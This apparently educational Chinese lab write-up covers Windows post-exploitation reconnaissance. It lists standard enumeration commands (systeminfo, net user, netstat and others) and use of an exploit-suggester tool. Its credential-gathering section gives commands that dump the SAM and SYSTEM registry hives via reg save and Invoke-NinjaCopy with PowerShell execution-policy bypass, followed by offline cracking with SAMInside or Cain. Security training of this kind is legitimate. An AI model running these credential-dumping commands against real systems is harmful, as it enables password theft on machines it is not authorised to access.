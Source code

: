 # Windows下信息收集

### Windows下信息收集实验 <a id="windows-"></a>

#### 基础信息收集 <a id="-"></a>

**使用systeminfo命令查看操作系统版本、架构、补丁情况**

![](https://p408.ssl.qhimgs4.com/t01687daadb35f5db80.png)

**Windows-Exploit-Suggester-master**

-u 参数升级并将数据库下载至本地：

![](https://p408.ssl.qhimgs4.com/t01a6092dd640a991b8.png)

-i 参数指定系统信息文件；-d 参数指定本地数据库文件，提示需安装xlrd读取Excel文件：

![](https://p408.ssl.qhimgs4.com/t01457fbff6a069205f.png)

pip安装模块：

![](https://p408.ssl.qhimgs4.com/t01eed3cd88b2ba9ad7.png)

再次运行，成功：

![](https://p408.ssl.qhimgs4.com/t01d40fcc7fd6481af2.png)

**使用Whomai、net user查看用户信息**

![](https://p408.ssl.qhimgs4.com/t014a572de2cf6c8e0a.png)

![](https://p408.ssl.qhimgs4.com/t01320b19e6e6c614d2.png)

![](https://p408.ssl.qhimgs4.com/t0117eed146b3e1c27c.png)

**使用net localgroup查看本地用户组**

![](https://p408.ssl.qhimgs4.com/t01d9003f2975c62e0b.png)

**使用net localgroup “组名”来查看用户组信息**

![](https://p408.ssl.qhimgs4.com/t0167601506694a0187.png)

**使用net accounts查看密码策略**

![](https://p408.ssl.qhimgs4.com/t01914afcc3a3181c9a.png)

**使用query user查看最近登录信息**

![](https://p408.ssl.qhimgs4.com/t01315c2fd98edfeff0.png)

**使用ipconfig查看网络适配器信息**

![](https://p408.ssl.qhimgs4.com/t01200aaececb24f420.png)

使用ipconfig /all查看所有适配器

使用ipconfig /displaydns 查看dns缓存

使用net use 查看网络连接

使用netstat查看网络服务

![](https://p408.ssl.qhimgs4.com/t016b80b4507243d5d3.png)

**使用route　print 查看路由信息**

![](https://p408.ssl.qhimgs4.com/t0195e974ed23014899.png)

**使用arp -a 查看arp缓存**

![](https://p408.ssl.qhimgs4.com/t01a81d62ba65f13cd6.png)

#### 凭证收集 <a id="-"></a>

**导出sam数据库中的密码**

方法1：以管理员权限运行cmd,输入以下命令

```text
reg save hklm\sam c:\sam.hive 
reg save hklm\system c:\system.hive 
```

方法2：使用powershell

```text
powershell -exec bypass
Import-Module .\invoke-ninjacopy.ps1
Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination .\sam.hive
Invoke-NinjaCopy -Path   C:\Windows\System32\config\SYSTEM -LocalDestination .\system.hive
```

将生成的sam.hive与system.hive转至本地，使用saminside或cain导入

saminside

![](https://p408.ssl.qhimgs4.com/t013a04f0ccfa3830a4.png)

结果如下

![](https://p408.ssl.qhimgs4.com/t01dc98d7a4ce93a67f.png)

cain

![](https://p408.ssl.qhimgs4.com/t012cdaf29e91e807f2.png)

